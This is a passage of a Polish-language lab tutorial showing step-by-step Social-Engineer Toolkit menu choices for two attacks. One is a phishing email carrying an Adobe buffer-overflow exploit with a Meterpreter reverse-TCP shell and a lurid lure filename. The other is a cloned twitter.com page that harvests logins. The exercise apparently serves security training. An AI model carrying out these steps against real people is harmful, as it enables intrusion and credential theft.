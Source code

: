 SET dostarcza nam wiele możliwości ataków. W tym ćwiczeniu przeprowadzimy ukierunkowany atak phishingowy, w którym utworzymy i prześlemy złośliwe pliki za pomocą poczty elektronicznej.
Po otworzeniu pakietu SET przechodzimy kolejno:
```
# setoolkit
1) Social-Engineering Attacks
1) Spear-Phishing Attak Vector
1) Perform a Mass Email Attack
```
Następnym krokiem będzie wybranie ładunku. Pokazowo użyjemy exploita
`14) Adobe util.printf() Buffer Overflow`
Oraz ładunku
`2) Windows Meterpreter Reverse_TCP`
Kolejną czynnością będzie podanie wartości dla `LHOST` i `LPORT`
```
set> IP address for the payload listener (LHOST): 192.168.1.20
set:payloads> Port to connect back on [443]:443
```
SET wygeneruje payload, a następnie zapyta nas czy chcemy sami zdefiniować nazwę załącznika. Wybieramy opcję
`2. Rename the file, I want to be cool.`
I nadajemy chwytliwą nazwę np: nagiefotkiszefowej.pdf
Teraz wybieramy opcję ataku do wielu osób:
`1.E-Mail Attack Single Email Address`
Przygotowując atak możemy stworzyć swój szablon wiadomości lub skorzystać z gotowców. 
My skorzystamy z gotowca np.:
`4: WOAAAA!!!!!!!!!! This is crazy...`
Teraz przychodzi czas na ustawienie celu oraz skąd ma być wysłany e-mail. Możemy skorzystać z konta gogle lub własnego serwera.
:::info
INFO: 
Na poczcie GMAIL zadziała mechanizm analizujący załączniki, więc google zablokuje naszą pocztę.
:::

## Ćwiczenie 2 – Wykorzystanie strony WWW
>**Zasoby:**
Kali Linux, Windows 7

W tym ćwiczeniu wykorzystamy podrobioną przez nas stronę do wykradzenia danych logowania ofiary.
Za pomocą narzędzia SET wybieramy kolejno:
```
#setoolkit
1) Social-Engineering Attacks
2) Website Attack Vectors
3) Credential Harvester Attack Method
```
Teraz musimy wybrać czy chcemy stronę sklonować, skorzystać z szablonu czy też zaimportować własną. 
Dla naszych potrzeb wykonamy klon dowolnej strony.
`2) Site Cloner`
SET poprosi nas o podanie adresu IP który będzie nasłuchiwał ofiary. Wpisujemy adres Kali Linux.
Następnie musimy wpisać adres strony którą sklonujemy np. `http://twitter.com`
W tym momencie SET uruchomi serwer www ze sklonowaną stroną.   Teraz należy tylko podesłać link ofierze i czekać aż się zaloguje.
